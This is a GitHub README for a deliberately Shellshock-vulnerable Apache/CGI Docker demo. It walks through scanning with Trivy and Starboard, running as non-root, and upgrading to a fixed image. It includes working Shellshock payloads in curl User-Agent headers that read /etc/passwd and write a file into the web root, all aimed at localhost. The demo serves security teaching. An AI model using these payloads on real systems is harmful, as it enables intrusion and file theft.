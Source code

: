 docker-shellshockable
=====================

Docker container with Apache 2 / CGI shellshock vulnerability. This builds on an original version by [Thibault Normand](https://github.com/Zenithar)

This demo uses three different versions

* shellshockable:0.1.0 - runs as root and includes shellshock vulnerability
* shellshockable:0.2.0 - runs as non-root but still has the vulnerability
* shellshockable:0.3.0 - runs as non-root, without shellshock vulnerability

### Build and push to Docker Hub

```sh
make push
```

**TODO: environment variable for Docker Hub account / registry so it doesn't have to use lizrice (needs changes to makefile and Helm chart)

### Find the vulnerability with Trivy

```sh
trivy image lizrice/shellshockable:0.1.0
```

Note: the Dockerfile installs the vulnerable package. A vulnerability scanner wouldn't find the vulnerability if you build the vulnerable version of bash from source.

### Install on Kubernetes with Helm

```sh
helm install shell-chart shellshockable/ --values shellshockable/values.yaml
```

### Port-forwarding

```sh
# Run this in the background or in another terminal window
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:80
```

** TODO: use an ingress so you don't have to re-do the port forwarding every time
** TODO: could also set up a fake domain in /etc/hosts on the host to pretend that this is on a "real" web site

### Regular query

```sh
curl localhost:8081/cgi-bin/shockme.cgi
```

** TODO: consider renaming shockme.cgi so it's more "normal"

### Read files from the host

```sh
curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd" localhost:8081/cgi-bin/shockme.cgi
```

You can put the user agent string into a variable to make this easier to type live

```sh
export SHOCK="() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd"
curl -A $SHOCK localhost:8081/cgi-bin/shockme.cgi
```

### Create a new page

```sh
curl localhost:8081/liz.html
# doesn't exist yet

curl -A "() { :; }; echo hello > /var/www/html/liz.html" localhost:8081/cgi-bin/shockme.cgi

# Find new file
curl localhost:8081/liz.html
```
### Test bash for Shellshock vulnerability

Get into the vulnerable container:

```sh
kubectl exec -it  $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) bash
```

Test that its version of bash is exploitable:

```sh
env x='() { :; }; echo vulnerable' bash -c "echo test"
```

You'll see the word "vulnerable" only if shellshock is present.

## Starboard

Install [starboard](https://github.com/aquasecurity/starboard) - for example `kubectl krew install starboard`
and  `kubectl starboard init` to create the CRDs.

```sh
kubectl starboard find vulnerabilities deployment/shell-chart-shellshockable
kubectl starboard get vulnerabilities deployment/shell-chart-shellshockable
kubectl starboard polaris
```

Run `octant` to view them there. You should see vulnerabilities (including HIGH severity shellshock) and config issues from Polaris (including failing the runAsNonRoot test).

## Run as non-root

```sh
helm upgrade -f security-context.yaml shell-chart shellshockable --set image.tag=0.2.0
```

This container uses a high numbered port so it can run as nonRoot

```sh
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:8100
```

Re-run polaris and check the test for runAsNonRoot is now passing.

** Note: This config doesn't set readOnlyRootFileSystem, because Apache wants to write files.

## Upgrade to non-vulnerable version

```sh
helm upgrade shell-chart shellshockable --set image.tag=0.3.0
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:8100
```

Re-run find vulnerabilities and check this is no longer an issue
